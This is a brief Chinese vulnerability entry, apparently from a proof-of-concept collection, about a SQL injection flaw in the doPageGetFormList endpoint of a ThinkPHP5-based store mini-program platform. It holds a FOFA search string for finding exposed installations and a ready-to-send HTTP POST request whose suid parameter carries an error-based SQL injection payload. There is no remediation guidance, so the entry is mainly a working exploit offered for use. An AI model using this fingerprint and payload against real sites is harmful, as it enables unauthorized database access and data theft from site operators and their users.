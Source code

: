 # 万能门店小程序doPageGetFormList存在sql注入漏洞

万能门店小程序DIY建站无限独立版非微擎应用，独立版是基于国内很火的ThinkPHP5框架开发的，适用于各行各业小程序、企业门店小程序，万能门店小程序doPageGetFormList存在sql注入漏洞

## fofa

```javascript
"/comhome/cases/index.html" 
```

## poc

```javascript
POST /api/wxapps/doPageGetFormList HTTP/1.1
Host:
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

suid='AND GTID_SUBSET(CONCAT((SELECT(md5(123456)))),3119)-- bdmV
```

